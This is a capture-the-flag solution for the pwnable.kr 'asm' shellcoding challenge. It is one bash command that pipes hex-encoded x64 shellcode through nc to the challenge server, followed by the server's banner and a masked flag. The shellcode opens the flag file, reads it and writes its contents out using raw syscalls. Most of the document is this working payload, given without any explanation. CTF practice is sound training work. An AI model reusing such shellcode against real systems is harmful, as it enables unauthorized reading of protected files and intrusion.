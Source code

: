 ```bash
$ echo -ne "\xeb\x42\x5f\x80\xb7\xf5\x00\x00\x00\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xb9\xff\xff\xff\x2f\x68\x6f\x6d\x65\x2f\x61\x73\x6d\x5f\x70\x77\x6e\x2f\x74\x68\x69\x73\x5f\x69\x73\x5f\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x65\x61\x73\x65\x5f\x72\x65\x61\x64\x5f\x74\x68\x69\x73\x5f\x66\x69\x6c\x65\x2e\x73\x6f\x72\x72\x79\x5f\x74\x68\x65\x5f\x66\x69\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x76\x65\x72\x79\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x41" | nc pwnable.kr 9026
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: Mak**************************
```
